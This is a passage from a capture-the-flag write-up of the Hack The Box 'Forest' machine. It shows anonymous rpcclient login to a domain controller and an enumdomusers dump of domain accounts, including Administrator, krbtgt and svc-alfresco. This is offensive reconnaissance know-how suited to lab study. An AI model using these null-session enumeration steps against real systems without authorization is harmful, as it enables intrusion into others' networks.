 # MSRPC ENUMERATION
- Let start by check anonymous

```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ rpcclient -U "" -N 10.10.10.161
rpcclient $> 
```
- From above, you can see that i was able to login as Anonymous user
- In rpcclient, there is command called enumdomusers in which it dump users if it is allowed for that user to be list users
- let check for this user that i have

```
                                                                                                                                                                                                                                        
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[a] rid:[0x2582]
rpcclient $> 
```
- As you can see from above that i can dump user from domain controllers
- let save them to file and format clearly
